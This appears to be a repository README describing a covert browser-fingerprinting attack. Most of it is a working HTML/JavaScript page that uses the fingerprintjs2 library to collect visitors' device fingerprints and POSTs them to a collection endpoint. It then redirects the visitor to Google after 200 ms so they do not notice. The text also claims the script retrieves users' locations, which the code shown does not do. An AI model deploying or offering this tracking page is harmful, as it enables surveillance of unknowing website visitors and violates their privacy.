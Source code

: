 # Fingerprint 

The attacker uses javascript embedded in the website to fingerprint users' devices. The javascript can also retrieve users' locations, and it redirects to another unharmful webpage such as Google search, so the users are not aware of the attack.

```javascript
<!DOCTYPE html>
<html>
  <head>
     <meta charset="UTF-8">
    <title>Example "Fingerprinting" Application</title>
    <script src="https://code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://valve.github.io/fingerprintjs2/fingerprint2.js"></script>
  </head>
  <body>
    <h1>Fingerprint Example</h1>
        <div id="result"></div>
        <code id="components"></code>
        <script>
          console.log("test");
          setTimeout(function () {
              window.location.href = "https://www.google.com"; //will redirect
          }, 200); //will call the function after 200 (X) milliseconds or ready().
          new Fingerprint2().get(function(result, components){
            // this will use all available fingerprinting sources
            console.log(result);
            $('#result').text(JSON.stringify(result));            
            // components is an array of all fingerprinting components used
            console.log(components);
            $('#components').text(JSON.stringify(components));
            //Send components fingerprint to server
            $.ajax({
              url: 'localhost:8882/collectFingerprint',
              type: 'POST',
              contentType:'application/json',
              data: JSON.stringify(result),
              dataType:'json'
            });
          });
        </script>
  </body>
</html>
```
